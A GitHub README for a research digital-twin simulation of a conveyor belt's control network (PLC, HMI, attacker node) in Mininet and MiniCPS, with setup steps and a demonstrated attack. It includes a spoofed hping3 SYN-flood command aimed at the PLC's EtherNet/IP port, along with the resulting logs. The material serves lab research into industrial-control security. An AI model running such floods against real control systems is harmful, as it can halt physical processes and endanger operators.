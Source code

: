 # DigitalTwin-ConveyorBelt: Simulation

This **DigitalTwin-ConveyorBelt** prototype simulates a conveyor belt, consisting of one PLC, a HMI and
an attacker (that has maliciously entered the network) that are connected by a switch. 
In this scenario, the attacker carries out a SYN-flood denial-of-service (DOS) attack. 
The conveyor belt runs as follows:

![conveyor belt](misc/conveyor-belt.JPG "conveyor belt")

The conveyor belt is driven by a motor, which possesses a certain temperature.
The PLC controls the physical process of the conveyor belt as follows:
First, the sensor measuring the temperature ("*SENSOR-TEMPERATURE*") is checked. Initially, it should be at 15 degree celsius.  
If the thresholds of the motor temperature (min: 8.0, max: 100.0) hold true, the motor can be started.
The actuator ("*MOTOR*") contains values from 0, whereby 0 indicates that the motor is turned off.
If the value is >0, the motor is on with the given velocity. 
Thereby, the motor velocity can be 50 at maximum, otherwise the PLC will turn the motor off.
Through the HMI, the values of the temperature can be requested from the PLC. Also, the operator can command a certain velocity via the HMI, which will be sent to the PLC.


## Installation
To install the **DigitalTwin** simulation of the conveyor belt please follow the instructions given below in the *exact order*.
You can use a VM that runs on Linux Ubuntu (e.g. VirtualBox with Ubuntu 18.04). 
When running on a VM, use SSH and X11-forwarding for window display (e.g. PuTTy in combination with XMing).

### Install mininet
To install [Mininet](http://mininet.org) execute the following commands:
```bash
git clone git://github.com/mininet/mininet
cd mininet
mininet/util/install.sh -a
```
Afterwards, test whether the installation was successful:
```bash
sudo mn --test pingall
```
If successful, run the following commands to exit the Mininet-CLI and cleanup the simulation:
```bash
mininet> exit
mn -c
```
Additional help is given at the [Mininet installation website](http://mininet.org/download/).

### Install MiniCPS
To install [MiniCPS](https://github.com/scy-phy/minicps) either use
```bash
pip install minicps
```
or clone the [MiniCPS-GitHub project](https://github.com/scy-phy/minicps).

### Install Wireshark & Co.
If you wish to capture the network traffic, install [Wireshark](https://www.wireshark.org/):
```bash
sudo apt-get install wireshark
```

### Initiate the DigitalTwin
Execute the following commands in the folder of this project.
To initiate state and topology of the conveyor belt simulation run the following commands.
To create the SQLLite-Table that simulates the physical states (*SENSOR-TEMPERATURE*, *MOTOR*):
```bash
python init.py
```
To create the topology and ping all nodes:
```bash
sudo python run.py
```
The last command should produce the following output:
```bash
*** Ping: testing ping reachability
attacker -> hmi plc
hmi -> attacker plc
plc -> attacker hmi
*** Results: 0% dropped (6/6 received)
mininet>
```
### Start the simulation of the physical process
To start the scripts that simulate physical behavior and the machines logic 
open the following nodes in a new terminal window by the following command:
```bash
mininet> xterm plc hmi switch
```
This command will produce an error if SSH and X11-forwarding is not set up correctly.
Execute the following scripts in the *respective nodes* and strictly in the following order 
(alternatively uncomment the lines in the *run.py* before executing *run.py*):
```bash
on node switch: python physical_process.py 
on node plc: python plc.py
```
By running these commands the physical process and control logic is started which should produce output
in the respective terminal windows of the nodes. 

Moreover, the *logs*-folder should now be filled with the following log files containing current system logs:
- plc.log
- hmi.log

### Attack the physical process
By opening a window on the *attacker* node the SYN-flood DOS attack can be started. Thereby, the attacker hides his/her own IP and 
disguises with the IP from the HMI (10.0.0.2), and aims at the PLC (10.0.0.1):
```bash
mininet> xterm attacker

on node attacker: hping3 -S -a 10.0.0.2 --flood -V -p 44818 10.0.0.1
```                    
Once the attack is started the following output should occur:
```bash
using attacker-eth0, addr: 10.0.0.3, MTU: 1500
HPING 10.0.0.1 (attacker-eth0 10.0.0.1): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```      
Whenever the attack is to be ended, press *strg+C*, which stops the attack and informs about the packets sent, e.g.:
```bash
12398768 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```    
It is also possible to use Wireshark for sniffing the network traffic. 
Make sure to install Wireshark beforehand and run it on node switch.

### Exit and cleanup
Afterwards run the following commands to exit and cleanup the simulation:
```bash
mininet> exit
mn -c
```

## Usage
### Attack simulation
By installing various tools (e.g. hping3, Ettercap, Wireshark etc.) the attacker node can try a multitude of possible attacks.
The following shows the respective nodes and their output when the *attacker* runs a SYN-flood DOS attack with hping3
targeted at the PLC.

### System logs
The system logs indicate at first that PLC can communicate without problems (see extract of *plc.log* in folder *logs/DOS*): 
```bash  
INFO 11/28/2020 12:36:40 10.0.0.1 main_loop Set motor to velocity: 40.000000.
INFO 11/28/2020 12:36:41 10.0.0.1 main_loop Set motor to velocity: 40.000000.
INFO 11/28/2020 12:36:42 10.0.0.1 main_loop Received new velocity from HMI (10.0.0.2) in own (10.0.0.1) internal enip tag.
INFO 11/28/2020 12:36:43 10.0.0.1 main_loop Set motor to velocity: 14.000000.
```
The logs further show the input given from the HMI (see extract of *hmi.log* in folder *logs/DOS*):
```bash
INFO 11/28/2020 12:36:41 10.0.0.2 main_loop Sent new velocity to PLC (10.0.0.1): 14.000000.
INFO 11/28/2020 12:37:15 10.0.0.2 main_loop Sent new velocity to PLC (10.0.0.1): 23.000000.
```               
After the attack is initiated, the following logs show that *PLC* is no longer able to receive the new velocity from the *HMI*, as it still keeps the velocity
from before (see extract of *plc.log* in folder *logs/DOS*):
```bash
INFO 11/28/2020 12:37:11 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:16 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:19 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:22 10.0.0.1 main_loop Set motor to velocity: 14.000000.
```
### Network traffic
While the logs indicate that the communication between the PLC and HMI is disturbed, the network traffic captured via Wireshark (filter: TCP) reveals the SYN-flooding attack:

![SYN flood attack](misc/SYN-flood_DOS_attack_wireshark.PNG "SYN flood attack")

## Research and Citation
Please consider citing this GitHub repository and our [COMPSAC'22](https://github.com/FrauThes/DigitalTwin-ConveyorBelt/blob/master/CITATION.bib) publication if you are using our **DigitalTwin-ConveyorBelt** simulation for your research.
